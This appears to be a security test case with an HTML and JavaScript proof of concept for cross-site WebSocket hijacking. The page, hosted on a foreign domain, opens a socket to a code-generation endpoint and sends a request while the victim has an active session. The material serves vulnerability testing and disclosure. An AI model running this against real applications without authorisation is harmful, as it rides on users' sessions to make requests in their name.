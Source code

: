 ### Security test case
1. Create a simple HTML file with JavaScript that connects to the target WebSocket endpoint:

```html
<!DOCTYPE html>
<html>
<head>
  <title>WebSocket Hijacking Test</title>
</head>
<body>
  <h1>CSWSH Test</h1>
  <div id="output"></div>

  <script>
    const ws = new WebSocket('ws://target-application-domain/generate-code');

    ws.onopen = function() {
      console.log('Connection established');
      document.getElementById('output').innerHTML += '<p>Connection established</p>';

      // Send a test message
      const payload = {
        "generatedCodeConfig": "html_tailwind",
        "inputMode": "image",
        "image": "data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mNk+A8AAQUBAScY42YAAAAASUVORK5CYII=",
        "generationType": "create"
      };

      ws.send(JSON.stringify(payload));
    };

    ws.onmessage = function(event) {
      console.log('Message from server:', event.data);
      document.getElementById('output').innerHTML += '<p>Received: ' + event.data + '</p>';
    };

    ws.onerror = function(error) {
      console.error('WebSocket error:', error);
      document.getElementById('output').innerHTML += '<p>Error: ' + JSON.stringify(error) + '</p>';
    };

    ws.onclose = function() {
      console.log('Connection closed');
      document.getElementById('output').innerHTML += '<p>Connection closed</p>';
    };
  </script>
</body>
</html>
```

2. Host this HTML file on a different domain than the target application
3. Open the HTML file in a browser while having an active session with the target application
4. Verify that the WebSocket connection is established and that the application responds to the message
5. Check if the application performs any validation of the WebSocket connection or if it processes the request without restriction
